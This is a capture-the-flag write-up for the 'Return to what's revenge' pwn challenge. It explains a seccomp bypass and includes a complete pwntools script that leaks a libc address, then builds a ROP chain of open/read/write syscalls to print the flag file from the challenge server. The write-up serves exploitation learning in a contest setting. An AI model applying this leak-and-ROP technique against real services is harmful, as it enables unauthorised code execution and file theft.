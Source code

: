 ## DownUnder: Return to what's revenge [pwn]
> My friends kept making fun of me, so I hardened my program even further! The flag is located at /chal/flag.txt.

##### *tl;dr: learned how to bypass babyseccomp :)*
#### From my brief experience, revenge challenges are typically more hardened compared to their previous versions, but sometimes involve similar initial steps for exploitation. Security measures for this binary are the same as the return to what challenge, thus we can deduce that this will be another ROP challenge (but with a twist). Loading up the binary in GHIDRA, we can see new interesting functions such as the sandbox() and seccomp_bpf_label(). 
![](ghidra_3.png)

#### After a few minutes of google sessions, I found [this](https://www.kernel.org/doc/html/v4.16/userspace-api/seccomp_filter.html) link summarizing what seccomp is. From what I understood, seccomp basically is a filter for syscalls. I then continued to read some ctf writeups that involve bypassing seccomp which have helped me understand what it does better. So I installed seccomp-tools and examined the results.
![](seccomp_res.png)

#### We can see that it first checks if the architecture is x86_64 then proceeds to filter what syscalls are allowed. My initial plan was to create a rop chain to mmap a region in memory executable and place shellcode there (some writeups I read used this); the problem was that I couln't have an execve shellcode since seccomp will terminate the process as execve is not allowed. I could do a open, read, write shellcode instead (seing that they are allowed), but I thought why not just create a ROP chain for it, after all: (see below)
![](lecture.png)

#### From here, I proceeded to leak puts' address from the remote server (similar to return to what), get the libc from libc.blukat.me using the leaked offset/s, and calculated for the libc base address. Next thing I did was to find rop gadgets to place values in the registers. For this we need to keep in mind that calling syscall alone will not execute the following instructions, so we need a `syscall; ret` gadget which we can find by adding the `--multibr` flag to ROPgadget. I redirected the output of the command to a file, viewed it in sublime text and manually searched for gadgets.
#### When we have the gadgets that we need, we will also need a read primitive to write the flag path to memory thus for this we will use gets again. But to where would we store it? We can store it in the .bss section, as it is the only segment in memory that has `rw--` permissions and isn't affected by the pie and aslr. 
```python
from pwn import *

#:
#p = process('./return-to-whats-revenge')
#gdb.attach(p.pid, 'break *vuln + 39')
p = remote("chal.duc.tf", 30006)
binary = ELF('./return-to-whats-revenge', checksec = False)

print(p.recv())

#: gadgets
pop_rdi = 0x00000000004019db
ret = 0x0000000000401016
puts_plt = binary.symbols['puts']
puts_got = binary.got['puts']
main_plt = binary.symbols['main']

#: exploit here
exploit = cyclic(56)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(puts_got)
exploit += p64(puts_plt)
exploit += p64(main_plt)

p.sendline(exploit)
leak = u64(p.recv()[:6].ljust(8, '\x00'))
print('[*] Libc leak: {}'.format(hex(leak)))

#: stage 2
libc = ELF('libc6_2.27-3ubuntu1_amd64.so', checksec = False)
libc.address = leak - libc.symbols['puts']
print('[*] Libc base: {}'.format(hex(libc.address)))

#: gadgets
bss_addr = 0x404020
pop_rdi = libc.address + 0x000000000002155f
pop_rsi = libc.address + 0x0000000000023e6a
pop_rdx = libc.address + 0x0000000000001b96
pop_rax = libc.address + 0x00000000000439c8
syscall = libc.address + 0x00000000000e5945

#:
exploit = cyclic(56)
exploit += p64(pop_rdi)
exploit += p64(bss_addr)
exploit += p64(libc.symbols['gets'])

#: int fd = open('/chal/flag.txt', O_RDONLY)
exploit += p64(pop_rdi)
exploit += p64(bss_addr)
exploit += p64(pop_rsi)
exploit += p64(0x0)
exploit += p64(pop_rax)
exploit += p64(0x2)
exploit += p64(syscall)

#: read(fd, bss_addr+0x20, 0x30)
exploit += p64(pop_rdi)
exploit += p64(0x3) #: normally, opened files by the program will use fd 3
exploit += p64(pop_rsi)
exploit += p64(bss_addr + 0x20)
exploit += p64(pop_rdx)
exploit += p64(0x30)
exploit += p64(pop_rax)
exploit += p64(0x0)
exploit += p64(syscall)

#: write(1, bss_addr+0x20, 0x30)
exploit += p64(pop_rdi)
exploit += p64(0x1)
exploit += p64(pop_rsi)
exploit += p64(bss_addr + 0x20)
exploit += p64(pop_rdx)
exploit += p64(0x30)
exploit += p64(pop_rax)
exploit += p64(0x1)
exploit += p64(syscall)

p.sendline(exploit)
p.sendline('/chal/flag.txt')
print(p.recv())
```
![](shell_3.png)
